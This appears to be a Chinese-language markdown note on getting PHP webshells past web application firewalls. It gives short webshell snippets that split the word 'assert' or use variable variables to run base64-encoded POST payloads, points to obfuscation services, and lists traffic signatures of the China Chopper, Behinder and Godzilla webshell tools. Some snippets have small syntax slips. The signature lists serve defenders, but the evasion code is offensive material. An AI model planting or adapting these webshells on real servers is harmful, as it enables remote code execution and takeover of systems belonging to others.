 # webshell上传免杀

## 1.代码免杀

WAF会对上传文件内容中敏感命令进行识别阻止访问，例eval

### 1.php传参带入

```php
<?php
$a=$_GET['a'];
$aa=$a.'ert';
$aa(base64_decode($_POST['x']));
>
```

payload:

```payload
?a=ass
x=cGhwaW5mbygpOw==
```

`cGhwaW5mbygpOw==`是phpinfo();进过base64加密的，waf可能会对phpinfo()进行检测，此处assert的作用和eval是相同的，但是eval在此处无法执行

### 2.php变量覆盖

```php
<?php
$a='b';
$b='assert';
$$a(base64_decode($_POST['x']);
>
```

pyload

```
x=cGhwaW5mbygpOw==
```

### 3.php加密变异

http://www.phpjm.net/

使用在线加密网站

### 4.php异或绕过，无字母数字绕过

通过两个字符异或可以得到想要的字符

### 5.使用现成的工具进行对代码的混淆

## 2.流量特征

### 1.菜刀

#### 2、特征：

```
数据包流量特征：

1，请求包中：ua头为百度爬虫

2，请求体中存在eval，base64等特征字符

3，请求体中传递的payload为base64编码，并且存在固定的QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J
```



### 2.冰蝎

消息体内容采用 AES 加密，基于特征值检测的安全产品无法查出。

#### 特征：

默认密码为`rebeyond`

```
0、User-agent：代码中定义

1、Pragma: no-cache

2、Content-Type：application/x-www-form-urlencoded

3、Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

4、Accept-Encoding: gzip, deflate, br

5、Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

### 3.哥斯拉

#### 1、特征：

```
1、User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0

2、Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

3、Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

4、Cookie: PHPSESSID=rut2a51prso470jvfe2q502o44;  cookie最后面存在一个";"
```

# webshell功能操作免杀

